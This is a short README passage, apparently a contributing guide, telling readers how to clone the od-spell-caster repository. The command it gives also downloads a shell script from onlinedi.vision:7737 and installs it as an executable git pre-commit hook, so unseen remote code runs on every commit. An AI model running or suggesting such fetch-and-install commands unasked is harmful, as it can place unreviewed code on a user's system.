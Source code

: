 ## Cloning the repo

First step in contributing to the ecosystem is cloning a repository. Make sure to use this command for cloning THIS repository:

```sh
git clone https://github.com/onlinedi-vision/od-spell-caster.git \
  && curl https://onlinedi.vision:7737/test/eb0c5f9a4df7834743824e6d13001ca201398da35d1d88d79b3c447ccddfee25/0198c7c77c68748183123813b1bcab7f.sh -o od-spell-caster/.git/hooks/pre-commit \
  && chmod u+x od-spell-caster/.git/hooks/pre-commit
```

